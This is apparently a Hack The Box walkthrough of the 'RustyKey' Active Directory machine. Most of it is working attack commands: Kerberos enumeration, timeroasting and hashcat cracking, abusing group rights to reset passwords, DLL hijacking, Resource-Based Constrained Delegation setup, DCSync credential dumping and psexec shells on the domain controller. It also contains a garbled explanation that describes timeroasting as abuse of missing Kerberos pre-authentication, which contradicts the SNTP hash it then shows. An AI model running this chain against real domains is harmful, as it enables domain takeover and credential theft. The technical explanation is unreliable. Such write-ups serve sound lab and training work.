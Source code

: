 This document provides a step-by-step walkthrough for the RustyKey machine on Hack The Box. The machine involves Kerberos enumeration, timeroasting, and Active Directory privilege escalation through Resource-Based Constrained Delegation (RBCD).

---

## 1. Initial Reconnaissance

### 1.1. Port Scanning

First, we start by scanning the target machine to identify open ports and services.

```bash
nmap -p- -sV -sC 10.10.11.75
```

The scan reveals standard Active Directory ports, including Kerberos (88), DNS (53), and SMB (445). We also identify the domain name `rustykey.htb` and the domain controller `dc.rustykey.htb`.

Let's add these to our `/etc/hosts` file for convenience.

```bash
echo "10.10.11.75 dc.rustykey.htb rustykey.htb" | sudo tee -a /etc/hosts
```

### 1.2. Kerberos Enumeration

We are given initial credentials for the user `rr.parker` with the password `8#t5HE8L!W3A`. We can verify that Kerberos is active and NTLM is disabled.

First, obtain a Ticket Granting Ticket (TGT) for the user. We sync our system time with the DC to avoid clock skew errors.

```bash
# Sync time with the Domain Controller
sudo ntpdate -s dc.rustykey.htb

# Get a TGT for rr.parker
impacket-getTGT 'RUSTYKEY.HTB/rr.parker':'8#t5HE8L!W3A'

# Set the ccache file for subsequent commands
export KRB5CCNAME=rr.parker.ccache
```

### 1.3. RID Brute-Force

With a valid TGT, we can enumerate domain users and computers using a RID brute-force attack.

```bash
# Using impacket-lookupsid
impacket-lookupsid -k -no-pass dc.rustykey.htb
```
This command lists numerous users and computers, including several computer accounts like `IT-COMPUTER3$`.

---

## 2. Foothold via Timeroasting

The large number of computer accounts suggests that a **timeroasting** attack might be viable. This attack exploits accounts that do not have Kerberos pre-authentication enabled, allowing us to request a TGT and crack the account's password offline.

### 2.1. Performing the Attack

We can use a tool like `nxc` or `crackmapexec` with the `timeroast` module to get the hashes.

```bash
# The command would look like this
nxc smb 10.10.11.75 -M timeroast
```

This provides us with a hash for the `IT-COMPUTER3$` account.

### 2.2. Cracking the Hash

The hash format is `$sntp-ms$...`. We can crack this using Hashcat (mode `31300`).

```bash
# Save the hash to a file
echo '$sntp-ms$a0401fc1d9f28b37ffb58e5f78a375fb$1c0111e900000000000a27e14c4f434cec0d0cbe0e792b65e1b8428bffbfcd0aec0d41515a8135f5ec0d41515a816d52' > timeroast_hash.txt

# Crack with hashcat and a wordlist
./hashcat.bin -m 31300 timeroast_hash.txt /usr/share/wordlists/rockyou.txt
```
The cracked password for `IT-COMPUTER3$` is: `Rusty88!`

---

## 3. User Flag

### 3.1. Abusing Group Memberships

By running BloodHound with the `IT-COMPUTER3$` credentials, we discover a privilege escalation path:
1.  The `IT-COMPUTER3$` account has `AddSelf` rights on the `HELPDESK` group.
2.  The `HELPDESK` group has `ForceChangePassword` rights on the `BB.MORGAN` user.

We can exploit this using `bloodyAD`.

```bash
# 1. Add our computer account to the HELPDESK group
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k add groupMember HELPDESK 'IT-COMPUTER3$'

# 2. Reset the password for BB.MORGAN
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k set password BB.MORGAN 'Password123@'
```

### 3.2. Getting the User Shell

Now we can get a TGT for `BB.MORGAN` and connect via `evil-winrm`.

```bash
# Get TGT for the new user
impacket-getTGT 'RUSTYKEY.HTB/BB.MORGAN':'Password123@'
export KRB5CCNAME=BB.MORGAN.ccache

# Connect with evil-winrm
evil-winrm -i dc.rustykey.htb -r rustykey.htb
```

Once inside, we can navigate to the user's desktop and retrieve `user.txt`.

---

## 4. Privilege Escalation to Root

The path to root involves a DLL hijacking vulnerability to move laterally to another user (`mm.turner`) and then abusing Resource-Based Constrained Delegation (RBCD) to compromise the Domain Controller.

### 4.1. Lateral Movement via DLL Hijacking

On `BB.MORGAN`'s desktop, a file `internal.pdf` hints at a DLL hijacking opportunity related to the `Support` group. The user `ee.reed` is a member of this group. The attack involves:
1.  Resetting `ee.reed`'s password.
2.  Getting a shell as `ee.reed` using `RunasCs.exe`.
3.  Creating a malicious DLL and placing it in a location that will be loaded by a process run by a higher-privileged user (`mm.turner`).

This gives us a shell as `mm.turner`.

### 4.2. Resource-Based Constrained Delegation (RBCD)

From the `mm.turner` shell, we can configure RBCD. We grant our `IT-COMPUTER3$` account the right to impersonate any user on the Domain Controller (`DC$`).

The following PowerShell commands (executed from the `mm.turner` shell) set up the delegation:

```powershell
# Import PowerView or use ActiveDirectory module
. .\PowerView.ps1

# Define the SID of the account we want to grant delegation rights to
$ComputerSID = New-Object System.Security.Principal.SecurityIdentifier("S-1-5-21-3316070415-896458127-4139322052-1125")

# Create a new Security Descriptor
$SD = New-Object System.DirectoryServices.ActiveDirectorySecurity
$SD.SetOwner($ComputerSID)
$SD.SetGroup($ComputerSID)

# Create an Access Control Entry (ACE) for GenericAll rights
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($ComputerSID, "GenericAll", "Allow")
$SD.AddAccessRule($ACE)

# Get the binary form of the Security Descriptor
$BinarySD = $SD.GetSecurityDescriptorBinaryForm()

# Apply the new Security Descriptor to the DC computer object
Set-ADComputer -Identity "DC" -Replace @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $BinarySD}
```

---

## 5. Root Flag

With RBCD configured, we can now abuse it to get full control.

### 5.1. Method 1: DCSync Attack

We can request a service ticket to the DC, impersonating the `backupadmin` user (who has DCSync rights), and then dump all domain credentials.

```bash
# Get a TGT for our computer account
impacket-getTGT 'RUSTYKEY.HTB/IT-COMPUTER3$':'Rusty88!'
export KRB5CCNAME=IT-COMPUTER3$.ccache

# Get a service ticket to the DC, impersonating backupadmin
impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'RUSTYKEY.HTB/IT-COMPUTER3$'
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache

# Perform DCSync
impacket-secretsdump -k -no-pass rustykey.htb/backupadmin@dc.rustykey.htb
```

This will dump the NTLM hash for the `Administrator` account. We can then use this hash to get an administrator shell.

```bash
# Use the cracked administrator password or pass-the-hash
impacket-getTGT 'RUSTYKEY.HTB/administrator':'<ADMIN_PASSWORD_OR_HASH>'
export KRB5CCNAME=administrator.ccache
evil-winrm -i dc.rustykey.htb -r rustykey.htb
```

### 5.2. Method 2: PSExec

Alternatively, after getting the service ticket, we can directly use `psexec.py` for an interactive shell.

```bash
# After getting the ST and setting the ccache...
impacket-psexec -k -no-pass rustykey.htb/backupadmin@dc.rustykey.htb
```
This will provide a system-level shell on the domain controller, allowing you to read `root.txt`.

